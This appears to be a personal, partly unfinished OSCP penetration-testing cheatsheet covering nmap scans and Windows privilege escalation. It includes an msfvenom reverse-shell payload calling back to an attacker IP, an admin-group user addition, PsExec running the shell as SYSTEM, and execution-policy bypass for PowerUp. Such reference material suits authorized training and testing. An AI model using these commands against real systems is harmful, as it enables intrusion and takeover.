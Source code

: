# Pentest Toolkit / OSCP Cheatsheet

imma just throw things that work in here

# Table of Contents

+ [Reconaissance](#reconaissance)
  1. [Port Scanning](#port-scanning)
  2. [Directory Enumeration](#directory-enumeration)
  3. [Header Analysis](#header-analysis)
+ [Exploitation](#exploitation)
+ [Post-Exploitation Enumeration](#post-exploitation)
+ [Privilege Escalation](#privilege-escalation)
  1. [Linux](#linux-privesc)
  2. [Windows](#windows-privesc)
    - The Basics
    - Payloads
    - Privesc Enumeration Tools


## Reconaissance

### Port Scanning
full TCP scan
> sudo nmap -sC -sV -O --open -p- -oA nmap/full [targets]

full UDP scan
> sudo nmap -sU -p- -oA nmap/udp [targets]

scripts w/ ports
> sudo nmap --scripts vuln,safe,discovery -p \[ports] [targets]

### Directory Enumeration

### Header Analysis

## Exploitation
## Post-Exploitation
## Privilege Escalation 

### Linux Privesc

First and foremost, [g0tmi1k's blog](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation) is more comprehensive than the commands I will list here.

### Windows Privesc

[FuzzySecurity's blog post](https://www.fuzzysecurity.com/tutorials/16.html)

[Tib3rius's Windows PrivEsc course](https://www.udemy.com/course/windows-privilege-escalation/)
  1. The Basics

**Your User**
> whoami
> whoami /priv
> net user [user]

**System Config**
> systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
> ipconfig /all
> netstat -ano
> tasklist /SVC


  2. Payloads
msfvenom executable payload

> msfvenom -p windows/shell\_reverse\_tcp LHOST=10.10.10.2 LPORT=4444 -f exe -o reverse.exe

RDP- add user to administrators group first

> net localgroup administrators [user] /add

PsExec from Windows Sysinternals

> .\PsExec64.exe -accepteula -i -s C:\temp\reverse.exe

  3. PrivEsc Enumeration Tools
[PowerUp](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1):
> powershell -exec bypass
> . .\PowerUp.ps1
> Invoke-Allchecks

[SharpUp](https://github.com/GhostPack/SharpUp):
> .\SharpUp.exe

[SeatBelt](https://github.com/GhostPack/Seatbelt) (more verbose, less targeted at privesc):
> .\SeatBelt.exe all
> .\SeatBelt.exe Nonstandard

[winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS):
List checks
> .\winPEASany.exe -h
Single check
> .\winPEASany.exe userinfo
All checks
> .\winPEASany.exe


